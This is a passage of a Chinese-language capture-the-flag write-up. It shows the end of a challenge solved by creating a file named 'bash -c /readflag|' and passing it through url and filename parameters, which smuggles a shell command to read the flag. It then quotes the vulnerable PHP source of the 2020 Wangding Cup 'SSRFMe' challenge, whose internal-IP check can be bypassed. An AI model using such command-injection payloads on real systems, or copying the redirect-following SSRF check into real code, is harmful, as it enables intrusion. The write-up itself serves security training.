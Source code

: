 
发现有readflag和flag，于是猜想执行readflag flag可以得到flag

先新建一个名为“bash -c /readflag|”的文件，用于之后的命令执行

`?url=&filename=bash -c /readflag|` 

再利用GET执行bash -c /readflag保存到aaa文件

`?url=file:bash -c /readflag|&filename=aaa`

访问aaa文件

`/sandbox/be9e11f310b3d83b4abe463cd358a61c/aaa`

flag is flag{912ba7ad-e6ba-4719-9e49-7f689e3a0dab}

### [网鼎杯 2020 玄武组]SSRFMe

```assembly
<?php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
    $hostname=$url_parse['host'];
    $ip=gethostbyname($hostname);
    $int_ip=ip2long($ip);
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;
}

function safe_request_url($url)
{

    if (check_inner_ip($url))
    {
        echo $url.' is inner ip';
    }
    else
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        $output = curl_exec($ch);
        $result_info = curl_getinfo($ch);
        if ($result_info['redirect_url'])
        {
            safe_request_url($result_info['redirect_url']);
        }
        curl_close($ch);
        var_dump($output);
    }

}
```